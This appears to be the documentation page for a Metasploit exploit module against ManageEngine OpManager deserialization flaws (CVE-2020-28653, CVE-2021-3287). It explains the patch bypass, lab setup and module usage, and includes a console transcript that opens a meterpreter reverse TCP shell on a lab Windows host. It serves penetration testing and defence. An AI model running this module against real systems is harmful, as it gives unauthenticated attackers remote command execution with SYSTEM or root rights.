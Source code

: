 ## Vulnerable Application

### Description

An HTTP endpoint used by the Manage Engine OpManager Smart Update Manager component can be leveraged to deserialize an
arbitrary Java object. This can be abused by an unauthenticated remote attacker to execute OS commands in the context of
the OpManager application (NT AUTHORITY\SYSTEM on Windows or root on Linux). This vulnerability is also present in other
products that are built on top of the OpManager application. This vulnerability affects OpManager versions 12.1 -
12.5.328.

#### CVE-2020-28653
This vulnerability affects OpManager versions 12.1 - 12.5.232. The vulnerability involves sending a malicious PDU to the
SmartUpdateManager handler that when deserialized executes an arbitary OS command.

#### CVE-2021-3287
This vulnerability is a patch bypass for CVE-2020-28653 and affects OpManager versions 12.5.233 - 12.5.328. When the
original vulnerability was patched, it was done so using a new `ITOMObjectInputStream` deserializer class. This object
has a flaw in its validation logic. The object works by requiring the caller to specify a list of one or more object
classes that can be deserialized. If an instance is used to perform more than one `readObject` call however, only the
first is protected because once a serialized object of an allowed type is read from the stream, the
`ITOMObjectInputStream` instance remains in a sort of authenticated state where subsequent objects can be read of any
type.

The exploit technique for this CVE leverages this by first sending a legitimate, serialized SUMPDU to create an instance
of the `SUMServerIOAndDataAnalyzer` object whose `process` method makes multiple `readObject` calls using the same
instance for each.

Unlike exploiting CVE-2020-28653, to exploit CVE-2021-3287 the target server must have the SUM server running. This is
not the case for the standard installer, but is the case for "Central" variant. Without the SUM server running, the log
handler is not initialized which causes the request handler to crash making the vulnerable code path inaccessible.

### Setup (Windows)

1. Download an affected version for either Windows or Linux from the [archive][0]
1. Run the installer executable
1. Accept the default values for all settings (skip registration), until the very end when prompted to start the
  application
1. Unselect the option to start the application
    1. If this option is missed, just navigate to the tray icon where it will say that it's starting and select the
      option to stop it
1. Start a command prompt as an administrative user
1. Navigate to `C:\Program Files\ManageEngine\OpManager\bin`, older versions use `C:\ManageEngine\OpManager\bin`
1. Run `run.bat`
1. View and accept the license terms
1. Press `f` to run the product in Free mode

OpManager should start successfully after a few minutes. At that point the service can be exploited. In this case the
session will be opened in the context of the user that ran the service with `run.bat`. Once the server is restarted and
OpManager starts automatically, the vulnerability can be exploited to open a session in the context of NT
AUTHORITY\SYSTEM.

### Setup (Linux)

1. Download an affected version for either Windows or Linux from the [archive][0]
1. Run the installer executable as root
1. Accept the default values for all settings (skip registration)
1. Navigate to `/opt/ManageEngine/OpManagerCentral/bin`, older versions use `/opt/ManageEngine/OpManager/bin`
1. Run `run.sh` as root

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/opmanager_sumpdu_deserialization`
1. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload-related options as necessary
1. Do: `run`
1. You should get a shell.

## Options

### CVE
Vulnerability to use. If set to 'Automatic' (the default), the module will attempt to detect the version and select the
correct vulnerability.

## Scenarios

### Windows Server 2019 x64 w/ ManageEngine OpManager v12.5.328

```
msf6 > use exploit/multi/http/opmanager_sumpdu_deserialization 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set TARGET Windows\ PowerShell 
TARGET => Windows PowerShell
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > check
[*] 192.168.159.96:8060 - The target appears to be vulnerable.
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] An HTTP session cookie has been issued
[*] Detected version: 12.5.328
[*] The request handler has been associated with the HTTP session
[*] Sending stage (200262 bytes) to 192.168.159.96
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.96:63887) at 2021-09-16 14:06:27 -0400

meterpreter > getuid
Server username: MSFLAB\smcintyre
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > 
```

[0]: https://archives.manageengine.com/opmanager/
